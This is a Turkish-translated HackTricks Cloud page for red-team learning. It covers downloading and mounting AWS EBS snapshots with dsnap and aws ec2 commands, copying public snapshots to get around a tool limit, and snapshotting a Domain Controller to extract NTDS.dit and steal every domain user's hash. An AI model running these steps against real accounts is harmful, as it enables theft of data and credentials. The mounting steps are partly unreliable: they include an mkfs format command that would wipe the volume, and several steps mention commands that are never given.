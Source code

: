# AWS - EBS Snapshot Dump

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## Bir snapshot'ı yerel olarak kontrol etme
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Not** edin ki `dsnap` genel snapshot'ları indirmenize izin vermez. Bunu aşmak için, snapshot'ın bir kopyasını kişisel hesabınıza yapabilir ve onu indirebilirsiniz:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Bu teknik hakkında daha fazla bilgi için orijinal araştırmayı şu adreste inceleyin: [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Bunu Pacu ile [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) modülünü kullanarak yapabilirsiniz.

## AWS'de bir snapshot kontrol etme

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Kontrolünüzdeki bir EC2 VM'ine bağlayın** (yedek kopyası ile aynı bölgede olmalıdır):

Adım 1: EC2 –> Volumes bölümüne giderek tercih ettiğiniz boyut ve türde yeni bir hacim oluşturun.

Bu işlemi gerçekleştirebilmek için şu komutları izleyin:

* EC2 instance'ına bağlanacak bir EBS hacmi oluşturun.
* EBS hacmi ve instance'ın aynı bölgede olduğundan emin olun.

Adım 2: Oluşturulan hacme sağ tıklayarak "attach volume" seçeneğini seçin.

Adım 3: Instance metin kutusundan instance'ı seçin.

Bu işlemi gerçekleştirebilmek için şu komutu kullanın:

* EBS hacmini bağlayın.

Adım 4: EC2 instance'ına giriş yapın ve `lsblk` komutunu kullanarak mevcut diskleri listeleyin.

Adım 5: `sudo file -s /dev/xvdf` komutunu kullanarak hacimde veri olup olmadığını kontrol edin.

Yukarıdaki komutun çıktısı "/dev/xvdf: data" gösteriyorsa, hacim boştur.

Adım 6: `sudo mkfs -t ext4 /dev/xvdf` komutunu kullanarak hacmi ext4 dosya sistemine formatlayın. Alternatif olarak, `sudo mkfs -t xfs /dev/xvdf` komutunu kullanarak xfs formatını da kullanabilirsiniz. Lütfen ext4 veya xfs kullanmanız gerektiğini unutmayın.

Adım 7: Yeni ext4 hacmini bağlamak için tercih ettiğiniz bir dizin oluşturun. Örneğin, "newvolume" adını kullanabilirsiniz.

Bu işlemi gerçekleştirebilmek için `sudo mkdir /newvolume` komutunu kullanın.

Adım 8: `sudo mount /dev/xvdf /newvolume/` komutunu kullanarak hacmi "newvolume" dizinine bağlayın.

Adım 9: "newvolume" dizinine geçin ve hacim bağlamasını doğrulamak için disk alanını kontrol edin.

Bu işlemi gerçekleştirebilmek için şu komutları kullanın:

* `/newvolume` dizinine geçin.
* `df -h .` komutunu kullanarak disk alanını kontrol edin. Bu komutun çıktısı "newvolume" dizinindeki boş alanı göstermelidir.

Bunu Pacu ile `ebs__explore_snapshots` modülünü kullanarak yapabilirsiniz.

## AWS'de bir snapshot kontrol etme (cli kullanarak)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

**`EC2:CreateSnapshot`** iznine sahip herhangi bir AWS kullanıcısı, **Domain Controller'ın anlık görüntüsünü oluşturarak**, kontrol ettikleri bir instance'a bağlayarak ve **NTDS.dit ve SYSTEM** kayıt defteri kovan dosyasını dışa aktararak tüm domain kullanıcılarının hashlerini çalabilir. Bu dosyalar Impacket'in secretsdump projesi ile kullanılabilir.

Bu saldırıyı otomatikleştirmek için bu aracı kullanabilirsiniz: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) veya bir anlık görüntü oluşturduktan sonra önceki tekniklerden birini kullanabilirsiniz.

## Referanslar

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}
